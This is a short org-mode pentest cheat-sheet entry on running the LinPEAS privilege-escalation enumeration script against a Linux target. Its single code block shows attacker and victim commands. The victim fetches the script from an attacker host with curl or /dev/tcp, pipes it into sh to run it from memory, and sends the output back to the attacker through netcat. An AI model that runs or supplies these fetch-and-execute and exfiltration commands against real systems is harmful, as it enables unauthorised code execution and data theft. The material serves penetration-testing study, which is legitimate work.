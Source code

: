:PROPERTIES:
:ID:       33dff0d7-d2b6-4410-9334-e3b63aae2455
:END:
#+title: linpeas
#+hugo_base_dir:/home/kdb/Documents/kdbed/kdbed.github.io.bak
#+filetags: :linux:privesc:pentest:enumeration:




* Execution:
Run from memory and send back to attacker:
#+begin_src shell
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
#+end_src
